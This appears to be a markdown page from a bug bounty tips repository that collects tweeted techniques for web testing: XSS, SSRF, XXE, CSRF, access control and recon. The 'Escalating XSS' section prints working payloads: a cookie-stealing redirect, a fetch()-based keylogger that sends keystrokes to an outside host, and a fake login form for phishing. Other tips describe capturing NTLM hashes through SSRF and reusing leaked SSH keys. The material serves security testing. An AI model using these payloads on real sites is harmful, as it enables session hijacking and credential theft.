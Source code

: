 # 🔄 Technical Process

A curated list of technical/process tips that will level up your bounty game. For more, head [back to the main page](./README.md).

## Dumping URLs with regex

Source: https://twitter.com/Bugcrowd/status/1364809861964451849

```
Looking to quickly dump URLs from a webpage using curl and some regex magic!? Try: 

curl -s https://www.bugcrowd[.]com | pcregrep -o "(http:\/\/|https:\/\/).*?(?=\"|'| )" | sort -u
```

## alert(1) -> alert(document.domain)

Source: https://twitter.com/Bugcrowd/status/1367346572858695681

```
When you find an XSS, at minimum, use alert(document.domain) over alert(1). This helps to demonstrate the context that the JavaScript is executing in. Even better, escalate the XSS to perform an account takeover!
```

## SSRF -> Password Hashes

Source: https://twitter.com/Bugcrowd/status/1368320520526180355

```
If you ever find a SSRF on a Windows box, try running http://responder.py on your own VPS, then send the SSRF to file://<yourvps>. With a bit of luck, the server will send you some tasty Windows NetNTLMv2 hashes to crack!
```

## Common XXE Weakpoints

Source: https://twitter.com/Bugcrowd/status/1342184648856616972

```
XXE's are still quite common, and they're usually a P1! 
Here are places that you can look for them:

1. Uploading Open XML documents such as MS Offics docs (docx, xlsx, pptx). They're all just zip files filled with XML files. If these documents get parsed on the server-side, there's a chance that they will also parse external entities within those files.

2. Functionality that parses RSS feeds (they're XML too!)

3. Functionality that parses HTML (for example, converting HTML to PDF)

4.  Functionality that parses sitemap.xml files.

5. SAML requests.

6. Content-Type with application/json can also be replaced with application/xml. Many parsers support that.

7. SVG files (if they get parsed in some way on the server)
```

## Escalating XSS

Source: https://twitter.com/Bugcrowd/status/1339417608169222145

```
Here are a few ways to make the most of an XSS.

1. Grab the victim's cookies by redirecting to an attacker's server and appending the cookie value, e.g. document.location='bugcrowd.com/?'+document.cookie

2. Perform a sensitive action as the victim user (such as changing their password or email address). Having an XSS allows you to bypass SOP and Anti-CSRF mechanisms. See here for some payloads + inspiration: https://github.com/hakluke/weaponised-XSS-payloads

3. Plant a JavaScript keylogger (from https://github.com/swisskyrepo/PayloadsAllTheThings)
<img src=x onerror='document.onkeypress=function(e){fetch("http://bugcrowd.com/?k="+String.fromCharCode(e.which))},this.remove();'>

4. Redress the window with a fake HTML login form to phish credentials: document.body.innerHTML = "<form action='https://bugcrowd.com'><input type='text' value='email' name='email'><input type='password' value='password' name='password'><input type='submit'></form>"
```

## Find Leaky Password Reset Tokens

Source: https://twitter.com/hakluke/status/1300392121065594881

```
Try this when testing webapps:

1. Set up burp in browser1
2. Do a password reset request in browser1
3. Open the password reset email in browser2 and copy the token
4. Search your Burp history for the token, if it is there, you've got yourself a nice easy account takeover!
```

## Quick Way to Generate a Custom Wordlist

Source: https://twitter.com/hakluke/status/1301487471704776705

```
Easily generate a custom wordlist from any domain:

echo "http://bugcrowd.com" | subfinder -silent | hakrawler -plain -usewayback -scope yolo | sed $'s/[:./?=:]/\\\n/g' | anew
```

## Logic Bugs

Source: https://twitter.com/hakluke/status/1308365970780561408

```
Here's a solid bug bounty tip. If you are going to focus on one vulnerability class, make it logic bugs. Most of the P1 bugs I see pop up are logic errors that developers have made. They often have high impact and they can't be discovered through automation.

To find them you need to start by fully understanding the purpose of the application that you are attacking. Try to think about what the developer would have been thinking when they implemented each feature, then switch back to your hacker brain, where might they have made a mistake?
```

## Long-Term Collaborator

Source: https://twitter.com/stokfredrik/status/1314940154478501888

```
Hacky af long term burp collaborator with slack notifications. 
1. Run collaborator and tee output into a file
2. Bash loop the file for changes.
3. Negative grep out stuff you don’t want like ns|www|mail and Smash that slack webhook with the data.
Yaaay long term monitoring...
```

## Recon via Google Analytics Codes

Source: https://twitter.com/hakluke/status/1330470167881469952

```
You can use this website to discover targets that use a particular Google Analytics code. This is a great way of discovering assets owned by a company.

1. Enter the domain or GA code into the website
2. Get results!

https://dnslytics.com/reverse-analytics
```

## Finding Access Control Bugs

Source: https://twitter.com/hakluke/status/1339209648813981696

```
I've been finding a lot of access control bugs lately! Here's how.

Firstly I have two users, one with high privileges (admin), and one with low privileges (joe). I log in as the admin first, and use all the functionality. Whenever I do something that should be reserved for an administrator, I send the request over to Repeater. Once I have a stack of them, I get the cookies from the "joe" account and insert them into those requests. I send them and analyse the difference in response to see if it worked. If it did, I report it!

Then, I do the same thing but without any cookies or session tokens to see if it works unauthenticated.

You would be amazed at how many applications appear totally secure, and then there's just one or two endpoints that are vulnerable. This is because many web frameworks kind of suck at implementing roles and permissions. Web frameworks have been very successful at lessening the amount of injection vulnerabilities we see, but permissions still need to be defined by a human, so they're more prone to errors.

By the way - if you want to make this whole process 100x faster, check out the "Autorize" burp plugin. @Regala_ and @stokfredrik did a great video about it here: https://www.youtube.com/watch?v=3K1-a7dnA60&ab_channel=ST%C3%96K
```

## Private Keys -> Private Repositories

Source: https://twitter.com/hakluke/status/1350021538142015490

```
If you ever find a SSH private key in a bounty program's assets, try using it to access the target's private Github repositories.

More details: https://docs.github.com/en/github/authenticating-to-github/connecting-to-github-with-ssh
```

## CSRF Techniques

Source: https://twitter.com/hakluke/status/1350710129671344128

```
CSRF comes in many forms. Try:

- Removing the token parameter entirely
- Setting the token to a blank string
- Changing the token to an invalid token of the same format
- Using a different user's token
- Put the parameters in the URL instead of POST body (and remove the token) and change the HTTP verb to GET
- Testing every sensitive endpoint
- Check whether the token might be guessed / cracked
- Check whether new tokens are generated for every session, if not they may be a hash of something simple like the user's email address. If so you can craft your own valid tokens.
- Try building the payload with multiple methods including a standard HTML form, multipart form, and XHR (Burp can help)

Being thorough is the key - many devs are still implementing CSRF protections on a per-endpoint basis. When they do that, they're bound to forget somewhere!
```

## Wordpress Plugins

Source: https://twitter.com/Bugcrowd/status/1347015120287916032

```
Found a Wordpress site? The easiest place to find bugs is in the plugins.

1. Find the installed plugins with WPScan
2. Set up your own WP instance and install the same plugins
3. Hack your own instance
4. Report your bugs!

The most common bug you'll find with this method is XSS
```

## Finding the Correct Region for an S3 Bucket

Sournce: https://twitter.com/hakluke/status/1350553428242493440

```
If you find a S3 subdomain takeover, you need to set up the S3 bucket in the correct region, otherwise it doesn't work.

To find the region, use `dig` to get the IP address, then put the IP into https://isitonaws.com to grab the region easily.
```
